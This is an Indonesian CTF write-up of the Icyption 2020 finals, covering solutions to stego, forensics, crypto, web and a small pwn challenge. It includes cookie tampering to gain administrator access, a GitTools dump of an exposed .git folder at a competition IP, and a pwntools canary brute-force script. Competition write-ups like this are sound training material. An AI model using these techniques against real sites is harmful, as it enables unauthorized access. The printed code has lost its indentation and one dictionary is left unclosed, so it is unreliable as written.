








Final Icyption 2020 Writeup
Ini merupakan kompetisi CTF pertama yang saya ikuti, dan ini merupakan sebuah kickstart dan abuse untuk saya bahwa saya dapat berkontribusi di bidang ini. Special thanks to bl33dz yang telah mengundang saya untuk join ke tim nya (yang sebelumnya tim ini memiliki 3 anggota, karena sudah lulus satu diganti saya wkwk).
 Final scoreboard
Final scoreboard
Yaaps, thats look like it. Kami menjuarai event tersebut, yeay. Tapi sayang, beasiswa hanya 1 untuk ketua tim, sad :'(
Love On The Weekend
Diberikan sebuah audio file yang bernama love on the weekend.mp3. Cek detail informasi file dengan exiftool didapat flag pada metadata Lyrics.

Flag
icyption{Do_y0u_l1k3_J0hn_May3r}
Bitcoin Make You Rich
Diberikan teks yang telah diencode yaitu sebagai berikut.
J8pRND46rbHKmPuz4zWBNaWYzuo8uP6Kit4eFCnCgjGP7JWe8e9CVaK2LitS7CmeQdcCueM
Sempat stuck beberapa jam, karena saya kira base85 yang ternyata base58. Decode dengan base58 2 kali dan didapatkan flag.

Flag
icyption{satoshi_nakamoto_create_this}
Something Wrong With This Drive
Diberikan sebuah file data.img dimana command file pada linux tidak dapat mengetahui informasi file data.img yang menandakan file tersebut corrupt.
Fix file tersebut dengan e2fsck dan file berhasil diperbaiki.

Mount file dengan command sudo mount data.img [dir], didapatkan file gambar yang memuat flag.
Flag
icyption{f1n4lly_y0u_f1nd_m3}
Wonderful Painting
Diberikan file gambar bernama blahblah.jpg. Cek stereogram dengan stegsolve didapatkan flag tetapi sulit untuk dibaca. Cari tools online, didapatkan pada https://magiceye.ecksdee.co.uk/. Upload gambar dan geser-geser didapatkan flag seperti nama tim saya :)

Flag
icyption{S3m0g4_K4mi_M3n4ng}
Sniff Sniff
Diberikan sebuah captured packet data (pcap) yang berisi banyak paket usb. Filter,
1. USB Transfer Type == 0x01
2. Frame Length == 72
3. Lalu, extract USB Data.
Extract dengan command
$ tshark -r monitor_snif.pcapng -Y 'usb.transfer_type == 0x01 && frame.len == 72' -T fields -e usb.capdata > usb-data.txt
$ cat usb-data.txt | head
00:00:16:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:18:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:16:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:04:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:0b:00:00:00:00:00
00:00:00:00:00:00:00:00
Selanjutnya dilakukan mapping dengan python, berikut solvernya.
#!/usr/bin/python
# coding: utf8
KEYBOARD_CODES = {
0x04:['a', 'A'], 0x05:['b', 'B'], 0x06:['c', 'C'], 0x07:['d', 'D'],
0x08:['e', 'E'], 0x09:['f', 'F'], 0x0A:['g', 'G'], 0x0B:['h', 'H'],
0x0C:['i', 'I'], 0x0D:['j', 'J'], 0x0E:['k', 'K'], 0x0F:['l', 'L'],
0x10:['m', 'M'], 0x11:['n', 'N'], 0x12:['o', 'O'], 0x13:['p', 'P'],
0x14:['q', 'Q'], 0x15:['r', 'R'], 0x16:['s', 'S'], 0x17:['t', 'T'],
0x18:['u', 'U'], 0x19:['v', 'V'], 0x1A:['w', 'W'], 0x1B:['x', 'X'],
0x1C:['y', 'Y'], 0x1D:['z', 'Z'], 0x1E:['1', '!'], 0x1F:['2', '@'],
0x20:['3', '#'], 0x21:['4', '$'], 0x22:['5', '%'], 0x23:['6', '^'],
0x24:['7', '&'], 0x25:['8', '*'], 0x26:['9', '('], 0x27:['0', ')'],
0x28:['\n','\n'], 0x2C:[' ', ' '], 0x2D:['-', '_'], 0x2E:['=', '+'],
0x2F:['[', '{'], 0x30:[']', '}'], 0x32:['#','~'], 0x33:[';', ':'],
0x34:['\'', '"'], 0x36:[',', '<'], 0x37:['.', '>'], 0x38:['/', '?'],
with open('usb-data.txt', 'r') as f:
usb_data = f.read()
usb_data = usb_data.split()
extracted_data = ""
for data in usb_data:
data = data.split(':')
shift = int(data[0], 16)
key = int(data[2], 16)
if key != 0:
if shift == 2:
extracted_data += KEYBOARD_CODES[key][1]
else:
extracted_data += KEYBOARD_CODES[key][0]
print(extracted_data)

Ternyata flag tidak benar. Hilangkan huruf w menjadi W1r3sh4rk dan perbaiki format flag, didapatkan flag yang benar.
Flag
icyption{W1r3sh4rk_n0t_only_f0r_n3tw0rks}
Any Information On This Website
Diberikan link menuju website, klik button LOGIN agar diarahkan ke halaman login. Cek source dengan CTRL+U.
Didapatkan teks yang terencode base64 VkhKNUlHZDFaWE4wTDJkMVpYTjBDZz09Cg==
$ echo VkhKNUlHZDFaWE4wTDJkMVpYTjBDZz09Cg== | base64 -d | base64 -d
Try guest/guest
Login dengan credential yang didapat, lalu didapati clue selanjutnya pada konten halaman.
it's cool that you logged in, but unfortunately we can only give the next clue to 'administrator'. :(
Cek cookie pada website, ditemukan cookie auth yang terdapat username=guest dimana merupakan credential untuk login tadi.
Ubah cookie guest menjadi administrator (disini saya menggunakan EditThisCookie pada Chrome). Refresh halaman dan didapatkan informasi mengenai website.
Congratulations, you're the administrator!
I made this website using there tools
- php
- visual studio code
- git
- apache
Akses folder git pada http://180.250.135.6:8080/.git/ dan menampilkan 403 Forbidden yang mana kita tidak diberi akses menuju path tersebut.
Dump git dengan GitTools.
$ ./gitdummper.sh http://180.250.135.6:8080/.git/ out
Didapatkan flag pada file config.

Flag
icyption{1N1_kaN_Y4Ng_kaMu_Cari_h3he}
Hannah Needs Your Help
Diberikan list angka desimal, hasil enkripsi per-huruf flag dengan RSA. Diketahui nilai N = 143. Karena N kecil, penulis dapat langsung mengetahui faktor prima p dan q yaitu 11 dan 13.
Atau dengan menggunakan factordb.com untuk mencari prima p dan q.
Dilakukan bruteforce nilai e dari 0-65537 karena e belum diketahui. Berikut solvernya.
# -*- coding: utf8 -*-
import gmpy2
def decrypt(e, cipher):
N = 143; p = 11; q = 13
phi = (p - 1) * (q - 1)
result = ""
for c in cipher:
d = gmpy2.invert(e, phi)
result += chr(pow(c, d, N))
return result
cipher = [118, 44, 121, 18, 129, 118, 45, 33, 7, 21, 116, 21, 13, 33, 38, 17, 49, 13, 100, 13, 17, 49, 13, 100, 13, 17, 80, 39, 80, 13, 91, 17, 50, 39, 38, 13, 5]
for e in range(0x10001):
try:
msg = decrypt(e, cipher)
if msg.startswith('icyption'):
print(msg)
break
except:
pass
Jalankan dan didapatkan flag.

Flag
icyption{m3m4ng_r4d4_r4d4_sus4h_jug4}
Canary Birds
Awalnya hanya diberikan service nc saja tidak ada file binary-nya sampai ada yang tanya jurinya.
*maaf nama tidak disensor.
Akhirnya file binary-nya dibagi, dan didalamnya terdapat flag XD.
Tapi disini penulis mengerjakan seperti apa yang dikatakan juri.
$ python -c 'print "A"*17' | ./source
saya akan mengulang perkataan ada. masukkan karakter! anda memasukkan : AAAAAAAAAAAAAAAAA
$ python -c 'print "A"*18' | ./source
saya akan mengulang perkataan ada. masukkan karakter! anda memasukkan : AAAAAAAAAAAAAAAAAA
$ python -c 'print "A"*20' | ./source
saya akan mengulang perkataan ada. masukkan karakter! ERROR! karaktermu kepanjangan!
Ditemukan pada saat input 20 karakter, program menampikan error. Selanjutnya dilakukan bruteforce karakter (yang dimaksud seperti canary) dan didapatkan flag ketika karakter ke-21 adalah %.

Berikut solvernya.
#!/usr/bin/python
from pwn import *
context.log_level = "warn"
def send(payload):
p = process('./source')
p.sendlineafter("! ", payload)
return p.recv()
def brute_canary():
for i in range(256):
payload = "A"*20 + chr(i)
resp = send(payload)
if 'ERROR!' not in resp:
print(resp)
break
if __name__ == '__main__':
brute_canary()
Flag
icyption{m4u_d4p3t_b34s1sw4}
Berikut hasil decompile binary menggunakan IDA.
int __cdecl main(int argc, const char **argv, const char **envp)
{
int result; // eax@2
__int64 v4; // rcx@4
char src[8]; // [sp+10h] [bp-90h]@1
char v6; // [sp+30h] [bp-70h]@1
char v7; // [sp+44h] [bp-5Ch]@1
_BYTE v8[3]; // [sp+45h] [bp-5Bh]@3
__int64 v9; // [sp+98h] [bp-8h]@1
v9 = *MK_FP(__FS__, 40LL);
setbuf(_bss_start, 0LL);
strcpy(src, "icyption{m4u_d4p3t_b34s1sw4}");
v7 = 37;
printf("saya akan mengulang perkataan ada. masukkan karakter! ", 0LL);
__isoc99_scanf("%s", &v6);
if ( 37 == v7 )
{
strcpy(v8, src);
printf("anda memasukkan : %s\n", &v6);
result = 0;
}
else
{
printf("ERROR! karaktermu kepanjangan!");
result = 1;
}
v4 = *MK_FP(__FS__, 40LL) ^ v9;
return result;
}
Admin Mistake. Harusnya menggunakan fungsi fopen() dalam C untuk mendapatkan value flag. Karena kalau seperti ini malah lebih ke-reversing kata salah satu peserta.
Penutup
Masukkan untuk juri, kalau tidak ada pembahasan soal katakan saja tidak ada. Ini sudah tanggal berapa :v
Jika ada yang keberatan karena saya tidak sensor nama, bisa hubungi saya dan saya akan edit postingan ini, terimakasih panitia.
Alhamdullillah Semoga Menang menjadi menang beneran :).